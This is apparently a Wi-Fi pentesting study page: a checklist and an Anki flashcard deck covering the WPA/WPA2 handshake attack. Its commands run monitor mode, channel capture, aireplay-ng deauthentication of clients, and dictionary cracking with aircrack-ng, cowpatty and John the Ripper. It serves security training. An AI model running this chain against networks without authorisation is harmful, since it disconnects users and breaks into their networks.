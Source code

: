 
---

## Checklist (Quick Run)

1. `airmon-ng start wlan0`
    
2. `airodump-ng wlan0mon -c <ch> -w WPA`
    
3. `aireplay-ng -0 5 -a <BSSID> -c <STA> wlan0mon`
    
4. Confirm `[ WPA handshake: <BSSID> ]`
    
5. Crack with Cowpatty / Aircrack‑ng / John / Hashcat
    
6. Verify access with `nmcli` or `wpa_supplicant`
    

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

A1b2C3d4E6	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	Why do we enable monitor mode before a Wi‑Fi attack?	To capture 802.11 frames (beacons, EAPOL) without associating to an AP, which is required for handshake capture.	wifi
B2c3D4e5F7	Basic (type in the answer)	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	What command enables monitor mode on <code>wlan0</code> and what interface does it usually create?	<code>sudo airmon-ng start wlan0</code>; creates <code>wlan0mon</code>.	wifi
C3d4E5f6G8	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	In <code>airodump-ng wlan0mon -c 1 -w WPA</code>, what does <code>-c 1</code> do?	Locks capture to channel 1 to avoid hopping.	wifi
D4e5F6g7H9	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	In the same command, what does <code>-w WPA</code> do and what file does it create?	Writes capture with prefix WPA, producing <code>WPA-01.cap</code>.	wifi
E5f6G7h8I0	Basic (type in the answer)	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	What Aireplay-ng command sends 5 deauth packets to client <CLIENT_MAC> on AP <AP_BSSID> using wlan0mon?	<code>sudo aireplay-ng -0 5 -a &lt;AP_BSSID&gt; -c &lt;CLIENT_MAC&gt; wlan0mon</code>	wifi
F6g7H8i9J1	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	Which two MAC addresses are required in the Aireplay-ng deauth command and what do they represent?	The AP BSSID (-a), which is the access point MAC, and the client MAC (-c), which is the station to disconnect.	wifi
G7h8I9j0K2	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	How do you confirm in Airodump-ng that a handshake was captured?	Look for <code>[ WPA handshake: &lt;BSSID&gt; ]</code> in the header line of output.	wifi
H8i9J0k1L3	Basic (type in the answer)	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	What Cowpatty command validates that WPA-01.cap contains a complete handshake without cracking?	<code>cowpatty -c -r WPA-01.cap</code>	wifi
I9j0K1l2M4	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	Which three arguments are required for Cowpatty cracking and what does each mean?	<code>-r &lt;cap&gt;</code> capture file, <code>-f &lt;wordlist&gt;</code> dictionary, <code>-s &lt;SSID&gt;</code> network name (needed for key derivation).	wifi
J0k1L2m3N5	Basic (type in the answer)	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	Provide the Aircrack-ng command to crack WPA-01.cap using the rockyou.txt wordlist.	<code>aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt</code>	wifi
K1l2M3n4O6	Basic	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	What tool converts WPA handshake captures into a format John the Ripper can crack?	<code>wpapcap2john</code>.	wifi
L2m3N4o5P7	Basic (type in the answer)	Ops::WiFi Gym::Chain 10: Traditional WPA/WPA2 Attack	After converting with wpapcap2john, what John the Ripper command cracks WPA handshakes using rockyou.txt?	<code>john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk</code>	wifi
```